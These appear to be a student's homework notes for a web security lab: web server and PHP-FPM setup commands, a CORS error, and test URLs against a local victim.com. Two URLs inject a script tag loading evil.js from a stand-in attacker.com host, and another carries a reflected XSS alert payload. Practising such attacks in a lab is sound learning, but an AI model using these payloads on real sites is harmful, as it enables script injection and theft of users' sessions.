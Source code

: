 ##

###
https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement

### Task 1
sudo cp -t /var/www/cookie-research/html/ ./06_homework/t1.html

Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://victim.com/test.txt. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing). Status code: 404.

### Php installation and Nginx integration
apt search php*-fpm
sudo apt install php-fpm
systemctl status php8.1-fpm.service 
sudo nano /etc/nginx/sites-available/default
sudo nginx -t
sudo systemctl restart nginx
sudo nano /var/www/html/info.php

### 
victim.com/csp.php?js=<script/src=//attacker.com/evil.js></script>
attacker.com/csp.php?js=<script/src=//attacker.com/evil.js></script>

###
http://victim.com/hw-6-3.php?name=<script>alert("hacked")</script>

